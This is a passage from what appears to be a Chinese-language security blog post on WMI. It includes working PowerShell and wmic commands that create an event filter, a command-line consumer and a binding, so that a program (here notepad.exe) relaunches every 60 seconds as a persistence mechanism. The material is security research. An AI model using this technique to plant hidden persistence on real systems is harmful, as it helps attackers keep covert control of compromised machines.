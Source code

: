 `wmic /NAMESPACE:"\\root\CIMV2" PATH Win32_ComputerSystem GET NumberOfLogicalProcessors,TotalPhysicalMemory /FORMAT:list`

返回结果如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-8-16/3-2.png)

### 2、查看当前进程

`wmic /NAMESPACE:"\\root\CIMV2" PATH Win32_Process GET Caption /FORMAT:list`



## 0x05 WMI Persistence
Powershell完整的实现代码如下：

```
$filterName = 'BotFilter82'
$consumerName = 'BotConsumer23'
$exePath = 'C:\Windows\System32\notepad.exe'
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{Name=$consumerName;ExecutablePath=$exePath;CommandLineTemplate=$exePath}
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}
```

接下来分步介绍对应wmic调用的过程

### 1、Create an __EventFilter instance

`wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"`

### 2、Create an __EventConsumer instance

`wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"`


### 3、Create a __FilterToConsumerBinding instance

`wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""`


### 4、List the __EventFilter and __EventConsumer instances

**Filters：**
